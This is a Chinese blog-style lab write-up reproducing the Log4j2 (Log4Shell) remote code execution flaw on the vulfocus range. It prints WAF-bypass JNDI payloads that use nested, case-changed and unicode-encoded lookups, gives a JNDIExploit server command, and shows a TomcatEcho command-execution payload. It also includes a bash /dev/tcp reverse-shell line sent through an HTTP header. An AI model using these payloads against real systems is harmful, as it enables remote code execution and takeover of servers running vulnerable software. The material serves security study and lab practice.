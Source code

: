 ### 0x01 waf绕过原理
上一篇漏洞复现中讲了下漏洞原理，这篇靶场复现在复现前先讲一下waf绕过原理，首先说明下2.15.0-rc1开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本2.0-beta9 <= 版本 <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过  
```
:- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过
logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");


Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");


同时也可以利用一些特殊字符的大小写转化的问题
ı => upper => i (Java 中测试可行)
ſ => upper => S (Java 中测试可行)
İ => upper => i (Java 中测试不可行)
K => upper => k (Java 中测试不可行)
logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");


现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试
像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
{"key":"\u0024\u007b"}
{"key":"\x24\u007b"}
```

### 0x02 靶场复现
想参照这篇文章复现一下log4j2反弹shell  
https://blog.csdn.net/m0_56773673/article/details/122300927

本想使用vulfocus的在线靶场（vulfocus/log4j2-rce-2021-12-09:1），结果环境启动后，payload打一下，环境崩一下，好不容易环境不崩了，payload放到get请求里，返回400，payload放到post请求里，返回405，心好累，还是参照复现文章中的环境自己搭吧  
参见：https://blog.csdn.net/weixin_47019868/article/details/122010972

使用kali系统，apt update发现非常慢，先更新下源  
参见：https://blog.csdn.net/qq_33331244/article/details/114656949

docker pull vulfocus/log4j2-rce-2021-12-09的时候非常慢，等了好半天都不行，突然想到，是不是docker镜像源的问题，修改镜像源后，不到1分钟就pull完成  
修改镜像源参见：https://blog.csdn.net/qq_29924795/article/details/104483435

本地搭建完环境，发现环境和在线靶场一样，并不是文章中的环境，难道docker镜像升级了，我靠。。

环境就这样了，还是想想payload怎么打吧，payload放入get请求中返回400，payload放入post请求中返回405，还是不行啊，查阅下vulfocus这个靶场别人怎么打的，突然发现，payload是放入get请求中，但需要url编码下，我怎么忘记url编码了，大脑好迟钝  
参见：https://blog.csdn.net/weixin_45632448/article/details/124149561

赶紧改成url编码的形式测试一下，结果还是不行，测了几次，都是不行，突然想到，是不是本地的docker镜像不出网啊，进入docker镜像内，发现各种命令都被阉割了，心再次好累。。

还是用在线靶场试一下吧，如果在线靶场可以，那应该就是本地docker镜像不出网，启动在线靶场，打了一下，dns平台收到请求了，天啦撸，终于行啦
![image](./image/01.png)

折腾了一圈，最后用的还是在线靶场。。。不过还好，这过程也学到不少

经测试，如下三种形式payload都可以
```
${jndi:ldap://de63d35d.dns.1433.eu.org/ttt}
${jndi:ldap://de63d35d.dns.1433.eu.org/}
${jndi:ldap://de63d35d.dns.1433.eu.org}
```

下面尝试执行命令，服务端执行
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0 -l 1389 -p 3456
```
其中JNDIExploit-1.2-SNAPSHOT.jar是魔改过的（也可以使用：[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)）

payload处执行如下（这是一个有回显的payload）
```
${jndi:ldap://0.0.0.0:1389/TomcatBypass/TomcatEcho}
```
并添加一个http头
```
WWW-Authenticate: whoami
```
可以看到成功执行了命令  
![image](./image/02.png)

尝试反弹shell
```
WWW-Authenticate: bash -c 'exec bash -i &>/dev/tcp/0.0.0.0/1234 <&1'
```
可以看到，成功反弹了shell
![image](./image/03.png)

有精力还可以看一下如下2篇log4j2的靶场和漏洞复现：  
https://buaq.net/go-111996.html  
https://www.cnblogs.com/CHOSEN1-Z13/p/16001961.html  

### 参考链接
https://www.freebuf.com/articles/web/341857.html  
https://www.freebuf.com/articles/web/344076.html  
https://nosec.org/home/detail/4920.html  